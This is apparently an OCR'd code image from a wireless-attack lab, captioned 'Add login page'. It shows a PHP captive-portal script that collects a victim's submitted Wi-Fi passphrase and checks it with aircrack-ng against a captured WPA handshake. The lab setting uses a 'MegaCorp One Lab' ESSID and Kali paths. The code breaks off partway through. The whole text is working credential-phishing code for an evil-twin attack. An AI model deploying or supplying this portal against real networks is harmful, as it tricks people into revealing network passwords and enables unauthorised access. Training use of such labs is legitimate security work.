   *Add login page*
```bash
<?php
# Path of the handshake PCAP
$handshake_path = '/home/kali/discovery-01.cap';
# ESSID
$essid = 'MegaCorp One Lab';
# Path where a successful passphrase will be written
# Apache2's user must have write permissions
# For anything under /tmp, it's actually under a subdirectory
#  in /tmp due to Systemd PrivateTmp feature:
#  /tmp/systemd-private-$(uuid)-${service_name}-${hash}/$success_path
# See https://www.freedesktop.org/software/systemd/man/systemd.exec.html
$success_path = '/tmp/passphrase.txt';
# Passphrase entered by the user
$passphrase = $_POST['passphrase'];

# Make sure passphrase exists and
# is within passphrase lenght limits (8-63 chars)
if (!isset($_POST['passphrase']) || strlen($passphrase) < 8 || strlen($passphrase) > 63) {
  header('Location: index.php?failure');
  die();
}

# Check if the correct passphrase has been found already ...
$correct_pass = file_get_contents($success_path);
if ($correct_pass !== FALSE) {

  # .. and if it matches the current one,
  # then redirect the client accordingly
  if ($correct_pass == $passphrase) {
    header('Location: index.php?success');
  } else {
    header('Location: index.php?failure');
  }
  die();
}

# Add passphrase to wordlist ...
$wordlist_path = tempnam('/tmp', 'wordlist');
$wordlist_file = fopen($wordlist_path, "w");
fwrite($wordlist_file, $passphrase);
fclose($wordlist_file);

# ... then crack the PCAP with it to see if it matches
# If ESSID contains single quotes, they need escaping
exec("aircrack-ng -e '". str_replace('\'', '\\\'', $essid) ."'" .
" -w " . $wordlist_path . " " . $handshake_path, $output, $retval);

$key_found = FALSE;
# If the exit value is 0, aircrack-ng successfully ran
# We'll now have to inspect output and search for
# "KEY FOUND" to confirm the passphrase was correct
if ($retval == 0) {
	foreach($output as $line) {
		if (strpos($line, "KEY FOUND") !== FALSE) {
			$key_found = TRUE;
			break;
		}
	}
}

if ($key_found) {

```